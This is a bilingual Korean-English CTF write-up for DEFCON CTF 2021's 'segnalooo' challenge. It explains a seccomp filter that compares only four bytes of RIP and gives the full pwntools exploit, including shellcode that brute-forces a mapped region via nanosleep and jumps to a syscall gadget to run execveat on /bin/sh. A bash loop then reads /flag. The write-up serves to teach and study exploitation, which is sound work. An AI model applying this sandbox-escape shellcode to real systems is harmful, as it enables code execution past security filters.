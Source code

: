```yaml
---
layout: post
title: DEFCON CTF 2021 segnalooo write-up
categories: ctf-write-up
tag: [ctf]
---
```


## segnalooo (20solves)

나는 이 문제를 처음부터 보지 않았다. 팀원(epist, mhibio)이 먼저 진행하고 있었고, 원하는 셸 코드를 실행 할 수 있는 상황이었다.

I joined this chall a little late. My team members(epist, mhibio) were working on it first and was able to execute shell code.

```python
context.log_level = 'debug'
p = process('./stub.bin')
payload = p8(0xf1)
payload += asm(f'''
    mov eax, 0
    syscall
''')
print(disasm(payload))
p.sendlineafter("Give me some code!\n", payload.hex())
p.interactive()
```

위와 같은 코드가 작성된 시점에서 이 문제에 합류 했으며, 나는 소스코드 분석은 하지 않았다. 

I joined this chall at the time the above code was written and I did not do source code analysis.



seccomp는 다음과 같다.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x08 0x00 0x40000000  if (A >= 0x40000000) goto 0012
 0004: 0x15 0x06 0x00 0x0000000b  if (A == munmap) goto 0011
 0005: 0x15 0x05 0x00 0x00000023  if (A == nanosleep) goto 0011
 0006: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0007: 0x25 0x04 0x00 0x80000000  if (A > 0x80000000) goto 0012
 0008: 0x20 0x00 0x00 0x00000000  A = sys_number
 0009: 0x15 0x02 0x01 0x0000003b  if (A == execve) goto 0012 else goto 0011
 0010: 0x06 0x00 0x00 0x00000000  return KILL
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

`munmap`과 `nanosleep`을 사용할 수 있고 **RIP가 0x80000000 이하일 때 execve를 제외한 모든 syscall을 사용할 수 있다.**

We can use `munmap` and `nanosleep`. and **When RIP is below 0x80000000, we can use all syscalls except execve.**



shellcode를 실행하는 시점의 메모리는 다음과 같다.

The memory at the time shellcode is executed is as follows.

![image](https://user-images.githubusercontent.com/43925259/116833821-443bb400-abf6-11eb-8b4e-c1e45f23b863.png)

우리의 셸 코드는 0x5xxxxxxxxxxx 영역에서 실행되고 0x10xxxxxxxxxx영역엔 셸 코드를 실행하기 이전에 레지스터를 초기화하는 등 다양한 작업을 하는 영역이다. 나머지 메모리들은 모두 munmap되어 있다.

Our shell code runs in the 0x5xxxxxxxxxxx region, and the 0x10xxxxxxxxxx region is an area that does various tasks, such as initializing registers before executing shellcode.



일단 무슨 짓을 해도 현재 메모리 영역에선 munmap과 nanosleep밖에 사용할 수 없어서 디버깅을 통해 0x10xxxxxxxxxx영역으로 jmp를 해서 다른 syscall을 실행해보았는데 성공적으로 실행되는 것을 확인했다. 아마 RIP를 비교할 때 4byte만 비교해서 발생하는 현상이다.

When comparing RIP, only 4 bytes are compared, so 0x10xxxxxxxxxx region allows other syscalls to be executed.



이를 통해 0x10xxxxxxxxxx 영역의 주소만 알 수 있으면 레지스터를 세팅후 0x10xxxxxxxxxx영역에 존재하는 syscall 부분으로 jmp를 하여 원하는 syscall을 호출 할 수 있다. 

We can call any syscall by leaking only 0x10xxxxxxxxxx region.



이제 저 주소를 어떻게 알아내냐인데, 내가 첫 번째 떠올린 아이디어는 munmap을 이용한 브루트포싱이다. 정상적인 주소를 munmap 했을 땐 0이 리턴되고 비정상적인 경우 음수를 리턴하는 루틴을 사용할려했는데, 비정상적인 주소를 munmap 했을 때도 0을 반환하는 현상이 발생하여 다른 방법을 생각했다.

My first idea is brute-forcing using a munmap. I expected to return 0 when I put in a normal address and negative when I put in an abnormal address. But in any case, it returned zero.



두 번째로 떠올린 아이디어는 nanosleep을 이용한 브루트포싱이다. nanosleep의 첫 번째 인자가 구조체인데, 이 첫 번째 인자에 invalid한 주소를 넣으면 0xfffffffffffffff2를 리턴하고 valid한 주소를 넣으면 0xffffffffffffffea를 리턴한다는 동작을 이용했다. 따라서 다음과 같은 동작을 하는 셸 코드를 작성하면 문제가 풀릴 것으로 예상했다.

My second idea is brute-forcing using a nanosleep. The first argument in this syscall is the structure. It returns 0xfffffffffffffff2 when the first argument is an invalid address. but It returns 0xffffffffffffffea when the first argument is an valid address. So I thought I could write the following shell code.

```c
for (i = 0; i <= 0xfffffff; i++)
    if (syscall(35, (0x10 << 40) + (i << 12), 0) == -22)
        call execveat (set register and jmp (0x10 << 40) + (i << 12) + 0xb4 )
```



셸 코드 작성은 @epist가 완료했고 최종 페이로드는 다음과 같다.

Shellcode was written by the epist.

```python
from pwn import *

context(arch='amd64', os='linux')

context.log_level = 'debug'
#p = remote('segnalooo.challenges.ooo', 4321)
p = process('./stub')
payload = p8(0xf1)
payload += asm('''
    mov rdi, 0x1010101000d4
    loop:
    add rdi, 0x1000
    xor eax, eax
    mov al, 35
    syscall
    cmp al, 0
    jne loop

    sub rdi, 0x1000
    xchg rdi, r12
    lea rsi, [rsp-7]
    
    pop rax
    mov al, 0x42
    jmp r12
''')
payload += ((0x31-len(payload))*b'\x00') + b'/bin/sh\x00'

print(disasm(payload))
p.sendlineafter("Give me some code!\n", payload.hex())
p.interactive()
```



셸을 딴 후 ls나 cat 명령들을 사용하면 Bad system call 이라고 뜨면서 프로그램이 종료된다. execve syscall을 사용못하게 해놔서 그런데 이는 다음과 같은 bash command를 이용하여 우회할 수 있다.

After executing the /bin/sh command, using the ls or cat commands results in an error called "Bad system call". I read the flag using bash command because I can't use execve syscall.

```bash
while read line;do echo "$line";done < /flag
```

![image](https://user-images.githubusercontent.com/43925259/116834473-42bfbb00-abf9-11eb-892c-94ba7d0245c5.png)

